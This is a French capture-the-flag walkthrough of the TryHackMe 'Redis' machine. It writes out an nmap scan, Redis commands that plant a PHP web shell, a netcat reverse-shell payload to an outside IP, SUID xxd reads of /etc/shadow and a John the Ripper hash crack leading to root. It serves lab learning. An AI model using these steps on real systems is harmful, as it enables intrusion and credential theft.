



##### <u>**1. NMAP**</u>

> sudo nmap -sSV -sC -p- 10.10.175.45
>

- `-sV : Détection de version sur les services utilisé.`
- `-sS :  SYN Scan, scan plutôt furtif.`
- `-sC : Exécute une série de scripts sur les services trouvé.`
- `-p- : Scan les ports de 1 à 65535.`

```
Starting Nmap 7.80 ( https://nmap.org ) at 2021-02-18 16:25 CET
Nmap scan report for 10.10.172.86
Host is up (0.023s latency).
Not shown: 65533 closed ports
PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
6379/tcp open  redis   Redis key-value store 6.0.7

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 51.52 seconds
```

On peut observer que redis est lancé sur le port 6379, et que apache est lancé sur le port 80.


La page web affiché est la page apache par défaut, rien d'intéressant dessus.



Il nous reste donc plus que le service redis.

En recherchant sur google "redis 6.0.7 exploit" on peut trouver le site suivant, ce-dernier nous montre plusieurs scénarios d'attaques sur redis.

https://book.hacktricks.xyz/pentesting/6379-pentesting-redis

Il est possible de créer un fichier, et d'injecter du code à l'intérieur(donc un possible reverse shell)


##### <u>**2. REDIS:**</u>

> redis-cli -h 10.10.172.86
>
> 10.10.172.86:6379> config set dir /var/www/html/
> 10.10.172.86:6379> config set dbfilename redis.php
> 10.10.172.86:6379> set test "<?php phpinfo(); ?>"
> 10.10.172.86:6379> save

Retournons sur la page web et ajoutons /redis.php à la suite de l'ip.



La page php injecté est bien fonctionnel, il est alors possible d'injecter un reverse shell.

Mettons en place le reverse php.

> 10.10.172.86:6379> config set dir /var/www/html/
> 10.10.172.86:6379> config set dbfilename rev2.php
> 10.10.172.86:6379> set payload "<?php system('/bin/nc 10.9.2.162 4444 -e /bin/bash');?>"
> 10.10.172.86:6379> save

Il nous faut maintenant lancer netcat afin d'écouter le réseau et ainsi récuperer le reverse shell.

> sudo nc -lvnp 4444

```
Listening on 0.0.0.0 4444
```

Allons maintenant lancer la page web avec /rev2.php après l'ip.



La page charge à l'infini, retournons maintenant sur notre terminal ou l'on a lancé netcat.

```
Connection received on 10.10.172.86 35260
whoami
www-data
```

La connexion est réussis, nous voilà avec l'utilisateur www-data.

Pour rechercherle flag user.txt.

> find / -name user.txt | grep -v Perm

```
/home/vianka/user.txt
```

> cat /home/vianka/user.txt

```
thm{XXXXXXXXX}
```


##### <u>**3. PRIVEC (Partie 1):**</u>

find / -perm -u=s -type f 2>/dev/null

> find / -perm -u=s -type f 2>/dev/null

```
/bin/ping
/bin/fusermount
/bin/mount
/bin/su
/bin/ping6
/bin/umount
/usr/bin/chfn
/usr/bin/xxd
/usr/bin/newgrp
/usr/bin/sudo
...
```

Regardons de plus près le software xxd.

> ls -l /usr/bin/xxd

```
-rwsr-xr-x 1 root root 18552 Mar 18  2020 /usr/bin/xxd
```

Grâce à xxd on peut lire certains fichier, de plus dans ce ctf tous les utilisateurs peuvent l'utiliser en tant que root et donc afficher certains fichier intéressant.

Comme par exemple le /etc/passwd ainsi que le le /etc/shadow qui nous permettrait de récuperer les login/mdp des users.

> LFILE=/etc/passwd
> xxd "$LFILE" | xxd -r

```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-timesync:x:100:102:systemd Time Synchronization,,,:/run/systemd:/bin/false
systemd-network:x:101:103:systemd Network Management,,,:/run/systemd/netif:/bin/false
systemd-resolve:x:102:104:systemd Resolver,,,:/run/systemd/resolve:/bin/false
systemd-bus-proxy:x:103:105:systemd Bus Proxy,,,:/run/systemd:/bin/false
syslog:x:104:108::/home/syslog:/bin/false
_apt:x:105:65534::/nonexistent:/bin/false
messagebus:x:106:110::/var/run/dbus:/bin/false
uuidd:x:107:111::/run/uuidd:/bin/false
vianka:x:1000:1000:Res,,,:/home/vianka:/bin/bash
```

> LFILE=/etc/shadow
> xxd "$LFILE" | xxd -r

```
root:!:18507:0:99999:7:::
daemon:*:17953:0:99999:7:::
bin:*:17953:0:99999:7:::
sys:*:17953:0:99999:7:::
sync:*:17953:0:99999:7:::
games:*:17953:0:99999:7:::
man:*:17953:0:99999:7:::
lp:*:17953:0:99999:7:::
mail:*:17953:0:99999:7:::
news:*:17953:0:99999:7:::
uucp:*:17953:0:99999:7:::
proxy:*:17953:0:99999:7:::
www-data:*:17953:0:99999:7:::
backup:*:17953:0:99999:7:::
list:*:17953:0:99999:7:::
irc:*:17953:0:99999:7:::
gnats:*:17953:0:99999:7:::
nobody:*:17953:0:99999:7:::
systemd-timesync:*:17953:0:99999:7:::
systemd-network:*:17953:0:99999:7:::
systemd-resolve:*:17953:0:99999:7:::
systemd-bus-proxy:*:17953:0:99999:7:::
syslog:*:17953:0:99999:7:::
_apt:*:17953:0:99999:7:::
messagebus:*:18506:0:99999:7:::
uuidd:*:18506:0:99999:7:::
vianka:$6$2p.tSTds$qWQfsXwXOAxGJUBuq2RFXqlKiql3jxlwEWZP6CWXm7kIbzR6WzlxHR.UHmi.hc1/TuUOUBo/jWQaQtGSXwvri0:18507:0:99999:7:::
```

Nous voilà maintenant avec un utilisateur(vianka) et son mot de passe chiffré.

Maintenant il va nous falloir utiliser john the ripper pour bruteforce le mot de passe chiffré.


##### <u>**4. JOHN:**</u>

Il faut commencer par adapté les 2 fichiers pour que john puisse les lire.

> unshadow passwd.txt shadow.txt > password.txt

Tentons de bruteforce le mot de passe de vianka.

> john --wordlist=/home/ethost/Documents/wordlist/probable-v2-top12000.txt password.txt 

```
Loaded 1 password hash (crypt, generic crypt(3) [?/64])
Press 'q' or Ctrl-C to abort, almost any other key for status
0g 0:00:00:15 41% 0g/s 344.4p/s 344.4c/s 344.4C/s rosewood..temporal
beautiful1       (vianka)
1g 0:00:00:30 100% 0.03226g/s 343.8p/s 343.8c/s 343.8C/s bliss..setup
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```

Nous voilà maintenant avec le mot de passe de vianka.

Pour récuperer le dernier flag nous avons 2 solutions.

En présumant que le flag soit à la racine de root donc dans le path suivant /root/root.txt

Nous pouvons tout simplement utiliser xxd à nouveaux pour le récuperer.(Celà marche)

> LFILE=/root/root.txt
> xxd "$LFILE" | xxd -r

Mais tentons tout de même de gagner l'accès root.

L'accès ssh de vianka étant bloqué il va nous falloir utiliser le reverse shell créé.

> su vianka

En faisant un *sudo -l* avec l'utilisateur vianka on peut voir que ce dernier possède les droits root.

Nous avons plus qu'à faire *sudo su* pour devenir root.

> find / -name root.txt | grep -v Perm

```
/root/root.txt
```

> cat /root/root.txt

```
thm{XXXXXXXXXXXX}
```


Celà conclu donc la box <u>Redis</u> sur la plateforme <u>TryHackMe</u>.

<u>Ethost.</u>